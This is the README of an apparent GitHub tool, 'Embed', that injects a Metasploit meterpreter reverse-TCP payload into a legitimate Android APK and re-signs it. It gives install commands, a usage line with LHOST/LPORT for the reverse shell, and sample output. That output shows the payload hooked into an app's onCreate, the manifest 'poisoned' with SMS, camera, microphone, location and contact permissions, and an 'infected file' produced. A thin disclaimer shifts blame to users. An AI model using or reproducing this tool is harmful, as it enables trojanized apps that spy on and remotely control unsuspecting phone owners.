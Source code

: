 # EMBED v.2.0
This tool creates a payload with metasploit framework and injected into a legitimate APK.

	DISCLAIMER
If the law is violated with it's use, this would be the responsibility of the user who handled it..
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

# REQUIREMENTS.
- Metasploit
- Java
- Keytool
- Apktool
- Jarsigner
- Apksigner
- Aapt

# INSTALLATION.
- Linux OS:
```bash
apt install git -y;
git clone https://github.com/ivam3/embed.git;
chmod +x setup;
bash setup manual
```
- Android OS with Termux:
```bash
apt install wget;
mkdir -p $PREFIX/etc/apt/sources.list.d;
wget https://raw.githubusercontent.com/ivam3/termux-packages/gh-pages/ivam3-termux-packages.list -O $PREFIX/etc/apt/sources.list.d/ivam3-termux-packages.list;
apt update && apt upgrade -y;
apt install embed -y
```

# USAGE
### [Usage]─➤ embed.rb [target.apk] [msfvenom options]
- Embed v3+ come with 3 options to use a keystore signature for sign your apk files :
{3} To create your own keystore.
{2} Using your own keystore; if you have one or if you was created it before in option 3.
{1} Default: Using a keystore with the next parameters :
```
Enter keystore password: android
Re-enter new password: android
What is your first and last name?
  [Unknown]:  Android Debugging
What is the name of your organizational unit?
  [Unknown]:  Android
What is the name of your organization?
  [Unknown]:  Android Debugging
What is the name of your City or Locality?
  [Unknown]:  California
What is the name of your State or Province?
  [Unknown]:  San Francisco
What is the two-letter country code for this unit?
  [Unknown]:  CA
Is CN=Android Debugging, OU=Android, O=Android Debugging, L=California, ST=San Francisco, C=CA correct?
  [no]:  yes

Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 10,000 days
for: CN=Android Debugging, OU=Android, O=Android Debugging, L=California, ST=San Francisco, C=CA
[Storing key.jks]
```

# EXAMPLE OF USAGE
```
$ embed PATH/to/legitim.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4546

._____ __  __ ____  _____ ____
| ____|  \/  | __ )| ____|  _ \
|  _| | v3.0 |  _ \|  _| | | | |
| |___| |\/| | |_) | |___| |_| |
|_____|_|  |_|____/|_____|____/
#:::::::: By Ivam3 ::::::::::::#

[?]─➤ Set a keystore signer
 ╰{1}─➤ Default (Android Debug key)
 ╰{2}─➤ Using your own key
 ╰{3}─➤ Create a new key
 ╰────➤ 1
[*]─➤ Generating msfvenom payload..
[*]─➤ Signing payload..
[*]─➤ Decompiling orignal APK..
[*]─➤ Ignoring the resource decompilation..
[*]─➤ Decompiling payload APK..
[*]─➤ Locating onCreate() hook..
[*]─➤ Copying payload files..
[*]─➤ Loading original/smali_classes3/mx/mxlpvplayer/activities/SplashActivity.smali and injecting payload..
[*]─➤ Poisoning the manifest with meterpreter permissions..
[+]─➤ Adding android.permission.CHANGE_WIFI_STATE
[+]─➤ Adding android.permission.ACCESS_COARSE_LOCATION
[+]─➤ Adding android.permission.ACCESS_FINE_LOCATION
[+]─➤ Adding android.permission.READ_PHONE_STATE
[+]─➤ Adding android.permission.SEND_SMS
[+]─➤ Adding android.permission.RECEIVE_SMS
[+]─➤ Adding android.permission.RECORD_AUDIO
[+]─➤ Adding android.permission.CALL_PHONE
[+]─➤ Adding android.permission.READ_CONTACTS
[+]─➤ Adding android.permission.WRITE_CONTACTS
[+]─➤ Adding android.permission.WRITE_SETTINGS
[+]─➤ Adding android.permission.CAMERA
[+]─➤ Adding android.permission.READ_SMS
[+]─➤ Adding android.permission.SET_WALLPAPER
[+]─➤ Adding android.permission.READ_CALL_LOG
[+]─➤ Adding android.permission.WRITE_CALL_LOG
[+]─➤ Adding android.permission.REQUEST_IGNORE_BATTERY_OPTIMIZATIONS
[*]─➤ Rebuilding /PATH/to/legitim.apk
      with meterpreter injection as data/data/com_backdoored.apk..
[*]─➤ Signing data/data/com_backdoored.apk ..
[*]─➤ Aligning data/data/com_backdoored.apk ..
[+]─➤ Infected file legitim.apk_final ready.
```

### License

GNU

##### Follow me on [Socials Network](https://wlo.link/@Ivam3)
